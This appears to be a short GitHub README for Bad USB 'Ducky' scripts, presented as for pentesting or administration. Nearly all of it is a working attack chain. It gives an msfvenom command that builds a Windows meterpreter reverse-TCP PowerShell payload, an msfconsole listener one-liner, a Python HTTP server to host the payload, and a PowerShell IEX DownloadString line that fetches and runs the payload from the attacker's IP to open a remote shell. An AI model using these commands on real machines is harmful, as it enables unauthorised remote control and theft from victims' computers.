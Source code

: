# Various Ducky scripts for Bad USBs
### Can be used for pentesting or administrative tasks.
# On The Attacker's Machine
### Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
### Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
### Start python http server<br/>
python3 -m http.server 80<br/>
### Ducky script will download and execute powershell script opening meterpreter session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/PAYLOAD.ps1


